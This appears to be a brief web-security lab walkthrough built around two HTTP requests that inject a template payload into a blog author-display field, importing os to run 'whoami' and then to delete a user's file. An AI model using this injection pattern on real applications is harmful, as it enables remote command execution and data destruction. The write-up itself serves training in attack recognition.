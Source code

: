 ![img](media/9097f88eebe458e2193db98ab64f93a7.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/change-blog-post-author-display HTTP/2
...

blog-post-author-display=user.nickname}}{%+import+os+%}{{os.popen("whoami").read()}}&csrf=PdLe58H5wvdQEv1PtPmQOJMvRz3krZgs
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/31e771cd7f4d9782976860f219272fa5.png)

![img](media/54f41bdb273d84d71b06765343c322d2.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/change-blog-post-author-display HTTP/2
...

blog-post-author-display=user.nickname}}{%+import+os+%}{{os.popen("rm+/home/carlos/morale.txt").read()}}&csrf=PdLe58H5wvdQEv1PtPmQOJMvRz3krZgs
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
